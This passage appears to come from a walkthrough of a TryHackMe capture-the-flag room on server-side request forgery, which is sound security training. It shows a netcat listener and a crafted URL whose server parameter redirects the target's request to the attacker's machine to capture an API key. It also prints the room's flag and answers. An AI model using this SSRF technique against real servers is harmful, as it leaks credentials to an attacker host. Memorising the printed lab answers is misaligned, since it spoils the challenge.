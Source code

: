 Before running the modified URL, we need to first execute this script in the terminal to set up the netcat listener:

nc -lvnp 8087

After that, run the modified URL in the browser with the attack box IP:

`[http://10.10.2.174:8087/download?server=10.10.32.61:8087&id=75482342](http://10.10.2.174:8087/download?server=10.10.32.61:8087&id=75482342.)`[.](http://10.10.2.174:8087/download?server=10.10.32.61:8087&id=75482342.)

Then, check the terminal for the listener and capture the flag.

![alt text](https://cdn-images-1.medium.com/max/800/1*akExhJmccLiwC6QBltJjtg.png)

Flag

> THM{HelloImjustanAPIkey}

**Q4: Going the Extra Mile:** There’s a way to use SSRF to gain access to the site’s admin area. Can you find it?

**Note:** You won’t need this flag to progress in the room. You are expected to do some research in order to achieve your goal.

> No answer needed

## Task 23: What Next?

Why not enroll in our [beginner-level pathway](https://tryhackme.com/path/outline/beginner) or [find another room](https://tryhackme.com/hacktivities) to complete?

> No answer needed

